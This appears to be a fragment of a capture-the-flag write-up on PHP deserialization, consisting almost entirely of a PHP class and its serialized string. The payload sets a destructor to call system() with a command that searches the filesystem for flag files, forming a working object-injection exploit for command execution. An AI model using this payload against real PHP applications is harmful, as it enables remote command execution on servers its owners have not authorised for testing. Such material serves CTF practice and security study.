 ```php
```

![image-20231112230555837](.\img\10-1.png)

```php
<?php

class Test {
    var $p = "find / -name 'flag*'";
    var $func = "system";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$a = new Test();
echo serialize($a);
```

`O:4:"Test":2:{s:1:"p";s:20:"find / -name 'flag*'";s:4:"func";s:6:"system";}`
